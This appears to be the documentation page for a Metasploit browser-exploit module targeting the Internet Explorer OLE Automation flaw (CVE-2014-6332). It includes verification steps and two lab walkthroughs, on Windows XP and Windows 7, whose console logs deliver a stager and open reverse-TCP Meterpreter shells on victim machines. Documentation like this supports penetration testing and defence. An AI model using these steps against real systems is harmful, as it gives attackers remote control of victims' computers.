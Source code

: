 ## Vulnerable Application

This module exploits the Windows OLE Automation array vulnerability, [CVE-2014-6332](https://www.cvedetails.com/cve/cve-2014-6332). The vulnerability is known to affect Internet Explorer 3.0 until version 11 within Windows 95 up to Windows 10, and no patch for Windows XP. However, this exploit will only target Windows XP and Windows 7 box. This is because from Windows 8 upward Internet Explorer blocks the payload from executing. Windows XP by defaults supports VBS, therefore it is used as the attack vector. On other newer Windows systems, the exploit will try using Powershell instead.

## Verification Steps

1. Start msfconsole
1. Do: ```use exploit/windows/browser/ms14_064_ole_code_execution```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Options

**TRYUAC**

Ask victim to start as Administrator. This option only works on Windows 7 targets.

**AllowPowershellPrompt**

Allow exploit to try Powershell. If exploiting a Windows 7 target you need to enable this option.

## Scenarios

### Windows XP Pro SP3 x86 with IE 8.0.6001.18702

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.207`. 

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/hGA1Ux
[*] Local IP: http://192.168.2.3:8080/hGA1Ux
[*] Server started.
[*] 192.168.2.207    ms14_064_ole_code_execution - Gathering target information for 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending exploit...
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending VBS stager
[*] Sending stage (957487 bytes) to 192.168.2.207
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.207:1299) at 2017-03-01 19:07:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Windows 7 Pro SP1 x64 with IE 8.0.7601.17514

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.208`. Unlike on the Windows XP, target victim will see a popup dialog apear and they will have to allow the execution of the PowerShell script for the exploit to work. You need to set `AllowPowershellPrompt` option to `true` otherwise the exploit won't work on Windows 7.

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > set AllowPowershellPrompt true
AllowPowershellPrompt => true
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/6tdgNjLVij3zs
[*] Local IP: http://192.168.2.3:8080/6tdgNjLVij3zs
[*] Server started.
[*] 192.168.2.208    ms14_064_ole_code_execution - Gathering target information for 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending exploit...
[*] Sending stage (957487 bytes) to 192.168.2.208
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.208:49197) at 2017-03-01 19:35:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WINDOWS7_X64
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
